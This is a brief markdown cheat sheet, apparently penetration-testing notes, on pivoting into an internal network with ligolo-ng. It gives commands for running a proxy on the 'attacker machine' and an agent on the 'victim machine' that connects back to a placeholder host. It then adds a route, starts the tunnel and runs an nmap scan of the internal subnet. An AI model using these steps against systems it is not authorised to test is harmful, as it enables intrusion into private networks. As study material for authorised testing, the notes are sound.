 # Pivoting

### Download link for ligolo-ng<br/>
Link: https://github.com/nicocha30/ligolo-ng<br/>

### Creating Interface
```
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up
```

### PROXY - server needs to be run on attacker machine 
#### start the server
```sudo ./proxy -laddr 0.0.0.0:<port> -selfcert```

### Agent - agent needs to be run on victim machine
#### connect the agent to server
##### windows agent
```agent.exe -connect <LHOST>:lport -ignore-cert```
##### linux agent
```./agent -connect <LHOST>:lport -ignore-cert```

### List the sessions
```ligolo-ng » session ``` #list session
```[Agent : client@client-virtual-machine] » ifconfig``` #check different network interfaces that victim connected
```You will receive result something like below
   ┌───────────────────────────────────────────────┐
   │ Interface 4                                   │
   ├──────────────┬────────────────────────────────┤
   │ Name         │ ens37                          │
   │ Hardware MAC │ 00:0c:29:45:60:ff              │
   │ MTU          │ 1500                           │
   │ Flags        │ up|broadcast|multicast|running │
   │ IPv4 Address │ 10.10.10.148/24                │
   │ IPv6 Address │ fe80::f04d:685d:278c:9642/64   │
   └──────────────┴────────────────────────────────┘
```

### Now to pivot to above example network run
```sudo ip route add ip/24 dev ligolo``` #ip here with above example 10.10.10.148/24

### Finally start the tunnel
```[Agent : client@client-virtual-machine] » tunnel_start```

### Now you can access all the machines inside the above example network 10.10.10.148/24
```sudo nmap 10.10.10.0/24```
